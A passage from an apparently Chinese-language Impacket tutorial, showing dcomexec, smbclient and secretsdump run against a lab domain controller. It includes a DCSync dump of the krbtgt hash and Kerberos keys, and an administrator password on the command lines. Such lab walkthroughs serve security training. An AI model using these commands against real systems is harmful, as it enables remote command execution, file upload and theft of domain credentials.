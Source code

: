 <font style="color:rgb(51, 51, 51);">CLSID为：49B2791A-B1AE-4C90-9B8E-E860BA07F889</font>

<font style="color:rgb(51, 51, 51);">dcomexec.py流程和wmiexec用法相似度很高，命令执行结果都是重定向到共享目录之后通过smb连接去获取。</font>

```plain
┌──(root㉿kali)-[~]
└─# impacket-dcomexec administrator:"Az123456@"@192.168.30.2
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[-] DCOM SessionError: unknown error code: 0x800706ba
```

# 六、smbclient
用于向服务器文件交互

```plain
┌──(root㉿kali)-[~]
└─# impacket-smbclient sec/administrator:"Az123456@"@192.168.30.2
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Type help for list of commands
# use C$
# put test.txt
# ls
drw-rw-rw-          0  Mon Jun 17 20:58:04 2024 $Recycle.Bin
drw-rw-rw-          0  Mon Jun 17 20:58:09 2024 $WinREAgent
drw-rw-rw-          0  Thu May 16 11:36:59 2024 Documents and Settings
-rw-rw-rw-      12288  Fri Aug 16 08:39:26 2024 DumpStack.log.tmp
drw-rw-rw-          0  Sat Jun  1 17:12:19 2024 inetpub
-rw-rw-rw- 1342177280  Fri Aug 16 08:39:26 2024 pagefile.sys
drw-rw-rw-          0  Thu May 16 11:34:50 2024 PerfLogs
drw-rw-rw-          0  Fri Aug 16 08:53:06 2024 Program Files
drw-rw-rw-          0  Thu May 16 11:34:50 2024 Program Files (x86)
drw-rw-rw-          0  Mon Jun 17 20:57:58 2024 ProgramData
drw-rw-rw-          0  Thu May 16 11:36:59 2024 Recovery
drw-rw-rw-          0  Sat Jun  1 17:23:03 2024 System Volume Information
-rw-rw-rw-         12  Fri Aug 16 09:26:14 2024 test.txt
drw-rw-rw-          0  Mon Jun 17 20:57:56 2024 Users
drw-rw-rw-          0  Mon Jun 17 21:57:52 2024 Windows
#
```

# 七、Secretsdump
利用DCSync导出域Hash，连接的账号密码需要具有DCSync权限

```plain
┌──(root㉿kali)-[~]
└─# impacket-secretsdump sec/administrator:"Az123456@"@192.168.30.2 -just-dc-user sec/krbtgt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4c419f69c7f6cbfd5027f273a4fb5236:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:739d1037f7e8453d7cc934548a9a9504a95a1cd77cf0746cb62c58921a643406
krbtgt:aes128-cts-hmac-sha1-96:08acd860886b3d0f5d365c62b76591a7
krbtgt:des-cbc-md5:266e6158fe3b9752
[*] Cleaning up...

```
